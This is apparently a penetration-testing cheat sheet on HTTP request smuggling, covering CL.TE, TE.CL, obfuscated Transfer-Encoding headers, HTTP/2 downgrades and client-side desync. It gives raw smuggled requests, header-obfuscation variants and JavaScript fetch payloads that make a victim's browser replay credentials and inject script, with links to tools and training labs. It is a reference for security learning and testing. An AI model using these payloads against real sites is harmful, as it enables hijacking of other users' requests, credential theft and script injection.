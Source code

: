 # Request Smuggling

> HTTP Request smuggling occurs when multiple "things" process a request, but differ on how they determine where the request starts/ends. This disagreement can be used to interfere with another user's request/response or to bypass security controls. It normally occurs due to prioritising different HTTP headers (Content-Length vs Transfer-Encoding), differences in handling malformed headers (eg whether to ignore headers with unexpected whitespace), due to downgrading requests from a newer protocol, or due to differences in when a partial request has timed out and should be discarded.

## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [Smuggler](https://github.com/defparam/smuggler)
* [Simple HTTP Smuggler Generator CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) > this tool does not offer automated exploitation. You have to identify the injection point and exploit it manually!


## About CL.TE | TE.CL Vulnerabilities
If you want to exploit HTTP Requests Smuggling manually you will face some problems especially in TE.CL vulnerability you have to calculate the chunk size for the second request(malicious request) as portswigger suggests `Manually fixing the length fields in request smuggling attacks can be tricky.`. For that reason you can use the [Simple HTTP Smuggler Generator CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) and exploit the CL.TE TE.CL vulnerabilities manually and learn how this vulnerability works and how you can exploit it. This tool offers you only the second request with a valid chunk size(TE.CL) auto-generated but does not offer automated exploitation. You have to identify the injection point and exploit it manually!





## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## HTTP/2 Request Smuggling

HTTP/2 request smuggling can occur if a machine converts your HTTP/2 request to HTTP/1.1, and you can smuggle an invalid content-length header, transfer-encoding header or new lines (CRLF) into the translated request. HTTP/2 request smuggling can also occur in a GET request, if you can hide an HTTP/1.1 request inside an HTTP/2 header

```
:method GET
:path /
:authority www.example.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.example.com
```

Challenge: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling

## Client-side desync

On some paths, servers don't expect POST requests, and will treat them as simple GET requests, ignoring the payload, eg:

```
POST / HTTP/1.1
Host: www.example.com
Content-Length: 37

GET / HTTP/1.1
Host: www.example.com
```

could be treated as two requests when it should only be one. When the backend server responds twice, the frontend server will assume only the first response is related to this request.

To exploit this, an attacker can use JavaScript to trigger their victim to send a POST to the vulnerable site:

```javascript
fetch('https://www.example.com/', {method: 'POST', body: "GET / HTTP/1.1\r\nHost: www.example.com", mode: 'no-cors', credentials: 'include'} )
```

This could be used to:

* get the vulnerable site to store a victim's credentials somewhere the attacker can access it
* get the victim to send an exploit to a site (eg for internal sites the attacker cannot access, or to make it harder to attribute the attack)
* to get the victim to run arbitrary JavaScript as if it were from the site

Eg:
```javascript
fetch('https://www.example.com/redirect', {
    method: 'POST',
        body: `HEAD /404/ HTTP/1.1\r\nHost: www.example.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
        credentials: 'include',
        mode: 'cors' // throw an error instead of following redirect
}).catch(() => {
        location = 'https://www.example.com/'
})
```

tells the victim browser to send a POST request to www.example.com/redirect. That returns a redirect which is blocked by CORS, and causes the browser to execute the catch block, by going to www.example.com. 

www.example.com now incorrectly processes the HEAD request in the POST's body, instead of the browser's GET request, and returns 404 not found with a content-length, before replying to the next misinterpreted third (`GET /x?x=<script>...`) request and finally the browser's actual GET request.
Since the browser only sent one request, it accepts the response to the HEAD request as the response to its GET request and interprets the third and fourth responses as the body of the response, and thus executes the attacker's script.

Challenge: https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-client-side-desync

## References

* [PortSwigger - Request Smuggling Tutorial](https://portswigger.net/web-security/request-smuggling) and [PortSwigger - Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)
* [Advanced Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling/advanced#http-2-request-smuggling)
* [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling - James Kettle - 10 August 2022](https://portswigger.net/research/browser-powered-desync-attacks)
